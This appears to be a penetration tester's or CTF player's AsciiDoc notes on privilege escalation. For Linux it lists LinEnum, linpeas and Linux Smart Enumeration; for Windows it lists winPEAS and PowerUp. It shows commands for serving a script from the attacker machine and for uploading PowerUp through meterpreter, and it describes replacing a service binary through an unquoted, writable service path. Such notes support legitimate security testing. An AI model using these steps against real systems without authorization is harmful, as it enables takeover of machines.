 = Privilege Escalation

== Linux

=== LinEnum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh[LinEnum] is a bash script that tries several methods for privesc.

To get the script on the target machine, we can either create a http server on the attacker and retrieve it from there (wget) or copy the script code in a file from a reverse shell.

[source, bash]
----
python3 -m http.server 8000
----

==== Important section in output
* Kernel information: list kernel exploit available for this machine
* Can we read/write sensitive files: world writeable files are listed
* SUID files: files with this bit set runs with the permissions of the owner -> we want root most likely
* crontab contents

=== Linpeas.sh
Can be found https://linpeas.sh/[here] and https://github.com/carlospolop/PEASS-ng[Github]

=== Linux Smart Enumeration
Can be found https://github.com/diego-treitos/linux-smart-enumeration[here]

== Windows

=== Winpeas
https://github.com/carlospolop/PEASS-ng

=== PowerUp
Download from https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1[Github]

Upload it via Metasploit meterpreter

[source, bash]
----
meterpreter > upload /tmp/PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
----

Check service with CanRestart "true" and unquoted service path vulnerability. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!